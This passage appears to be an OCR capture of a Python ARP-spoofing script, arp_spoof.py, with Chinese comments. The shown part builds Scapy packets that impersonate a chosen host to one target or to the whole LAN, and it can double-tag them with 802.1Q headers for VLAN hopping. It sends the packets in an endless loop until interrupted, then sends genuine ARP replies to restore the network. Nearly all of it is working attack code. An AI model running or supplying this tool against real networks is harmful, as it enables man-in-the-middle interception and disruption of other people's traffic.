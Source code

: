 ```python
        ethernet = Ether(src=mac_self, dst=mac_broad)
        arp = ARP(hwsrc=mac_self,psrc=host,op=1)
        print('[+]Poisoning --> LAN',end='')

    #判断是否加入Vlan标识
    if vlan_target:
        vlan_tag = Dot1Q(vlan=vlan_own)/Dot1Q(vlan_target)
        pkt =  ethernet/vlan_tag/arp
    else:
        pkt = ethernet/arp

    print(" ('Ctrl + C' stop)")

    try:
        while True:
            sendp(pkt,iface=iface,verbose=False)
    except KeyboardInterrupt:
            print('\n[+]Stopped poison')
            arp_recover(iface,host)

#发送正常的arp包
def arp_recover(iface,host):

    time.sleep(1)

    print('[*]Recovering the network')

    mac_host = getmacbyip(host)
    pkt = Ether(src=mac_host, dst=mac_broad)/ARP(hwsrc=mac_host, psrc=host, op=2)
    sendp(pkt,iface=iface,inter=1,count=2,verbose=False) #inter 发包间隔

    time.sleep(1)

    print('[+]Complete')

def main():

    if os.geteuid() != 0:
        print('[-]Need root user to run')
        sys.exit(1)

    usage = 'usage: arp_spoof.py [-h] [-i IFACE] [-t TARGET] [-vl vlan_own vlan_target] host'
    parser = argparse.ArgumentParser(usage=usage)
    parser.add_argument('-i','--iface',default='eth0',help='The network interface of use')
    parser.add_argument('-t','--target',help='Specify a target to ARP poison')
    parser.add_argument('-vl','--vlan',nargs=2,help='The vlan hopping of use eg:-vl 1 2')
    parser.add_argument('host',help='host of impersonate')

    try:
        args = parser.parse_args()
        iface,target,vlan,host = args.iface,args.target,args.vlan,args.host

        if vlan:
            arp_spoof(iface,target,host,vlan_own=vlan[0],vlan_target=vlan[1],)
        else:
            arp_spoof(iface,target,host)
    except ValueError:  #捕获输入参数错误
        parser.print_help()

if __name__ == '__main__':
    main()
```
